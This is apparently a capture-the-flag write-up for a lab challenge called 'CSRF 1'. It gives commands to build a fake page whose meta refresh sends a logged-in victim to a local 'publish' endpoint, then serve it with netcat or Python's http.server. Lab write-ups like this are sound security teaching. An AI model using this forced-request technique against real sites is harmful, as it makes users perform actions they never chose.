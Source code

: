 # CSRF 1

#### Need to redirect the victim from the hacker site back to the main site to publish the flag. First need to create the simple fake site, there are multiple ways to do this but I chose this one.

#### From the terminal:
```
echo -e "HTTP/1.1 200 OK\r\nContent-type: text/html\r\n\r\n<html><head><meta http-equiv=\"refresh\" content=\"0; url=http://challenge.localhost/publish\"></head></html>" > index.html
```
#### Or in the text editor:
```
HTTP/1.1 200 OK
Content-type: text/html

<html>
  <head>
    <meta http-equiv="refresh" content="0; url=http://challenge.localhost/publish">
  </head>
</html>
```
--------------------------------------

#### Now need to start up a server to listen, can use netcat:

```cat index.html | nc -l -p 1337 -q 1```

#### Or Python

```python3 -m http.server 1337```

----------------------------------

#### Then run the victim command and login for the flag.
